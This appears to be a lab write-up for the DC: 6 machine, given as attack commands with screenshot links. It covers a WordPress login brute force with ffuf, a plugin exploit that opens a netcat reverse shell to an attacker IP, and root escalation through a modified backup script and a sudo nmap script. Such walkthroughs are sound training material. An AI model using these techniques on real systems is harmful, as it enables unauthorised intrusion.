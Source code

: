 # DC: 6 - Writeup
![](https://img.shields.io/badge/-linux_machine-e67e00?style=for-the-badge&logo=linux&logoColor=white)


```
netdiscover -r 192.168.56.1
```
![start](https://github.com/adminush/Labs-Writeups/assets/58698274/23daeaad-f3de-4a95-aacc-7b040e412e39)

```
nmap -A -sV -T4 192.168.56.103
```
![scan](https://github.com/adminush/Labs-Writeups/assets/58698274/63315d7e-11df-4f3b-98c4-9221ba9af342)

![not-connection](https://github.com/adminush/Labs-Writeups/assets/58698274/98132037-c1c1-4058-b8e8-2c4d0d8ccd51)

![etc-hosts](https://github.com/adminush/Labs-Writeups/assets/58698274/9e5285ba-50bc-4159-9ad8-496c79e5010f)

![web](https://github.com/adminush/Labs-Writeups/assets/58698274/3b4d3620-34d1-4ad3-963b-71461a63e447)

```
dirb http//wordy/
```
![dir-1](https://github.com/adminush/Labs-Writeups/assets/58698274/0a1dba18-086a-49ff-8fbc-21c224a2ec48)

![dir-2](https://github.com/adminush/Labs-Writeups/assets/58698274/eceee3ec-b425-43bb-9d55-23ed44a0de6a)

```
dirb http://wordy/ /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wordpess.fuzz.txt
```
![dir-wordpress-wordlist-1](https://github.com/adminush/Labs-Writeups/assets/58698274/4490eef1-b401-4ec0-8d9c-cb739826a0e3)

![dir-wordpress-wordlist-2](https://github.com/adminush/Labs-Writeups/assets/58698274/2e8ce2e3-8a11-49de-921a-3898220ea638)

![dir-wordpress-wordlist-3](https://github.com/adminush/Labs-Writeups/assets/58698274/573c32af-b62b-4bbf-b057-6312092aac1e)

```
http://wordy/?author=2
```
![check-users](https://github.com/adminush/Labs-Writeups/assets/58698274/9c1d759f-bb01-42fa-971e-d11341c3e555)

![users-wordlist](https://github.com/adminush/Labs-Writeups/assets/58698274/d749b98e-a88d-4e36-b2f9-dc6f309bb7d5)

```
ffuf -u "http://wordy/wp-login.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: wordpress_test_cookie=WP+Cookie+check" -d "log=HFUZZ&pwd=WFUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1" -w users.txt:HFUZZ -w passwords.txt:WFUZZ --fw 188,184
```
![brute](https://github.com/adminush/Labs-Writeups/assets/58698274/cff01e0a-3f39-45b7-a5c1-df767f4d1017)

![admin-panel](https://github.com/adminush/Labs-Writeups/assets/58698274/923d2fbe-7e28-400a-9e55-f99475e32a5b)

```
search in browser -> exploitdb wordpress plugin active monitoring
```
![exploitdb](https://github.com/adminush/Labs-Writeups/assets/58698274/a03d47ad-2006-409b-b12b-5c4e6a98e759)

```
nc -lvp 4444
```
![reverse-shell](https://github.com/adminush/Labs-Writeups/assets/58698274/8fe77023-4c70-491c-93a1-2a66b36e8677)

```
python3 exploit.py wordy mark:helpdesk01 192.168.56.101 4444
```
![run-exploit](https://github.com/adminush/Labs-Writeups/assets/58698274/4cd062a8-223b-48a3-ad80-ec698946e323)

![shell-connection](https://github.com/adminush/Labs-Writeups/assets/58698274/5de69024-3d0f-4b7b-981a-6a1393de9039)

![graham-pass](https://github.com/adminush/Labs-Writeups/assets/58698274/15b8d3d3-cd7a-4fcd-8920-9dd60422a633)

![graham-ssh](https://github.com/adminush/Labs-Writeups/assets/58698274/8cfa63b1-07a3-4a90-af27-2994366b83b9)

![check-jen-dir](https://github.com/adminush/Labs-Writeups/assets/58698274/6455544c-636b-4462-863b-41077c52784e)

```
nano /home/jens/backups.sh

#!/bin/bash
#tar -czf backups.tar.gz /var/www/html
/bin/bash
```
![escalation-jen](https://github.com/adminush/Labs-Writeups/assets/58698274/e40aa251-1d75-4a31-b296-7b7dae6d73ce)

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
![escalation-root](https://github.com/adminush/Labs-Writeups/assets/58698274/cd6a8291-6ffa-49af-8252-ee30ac23711c)
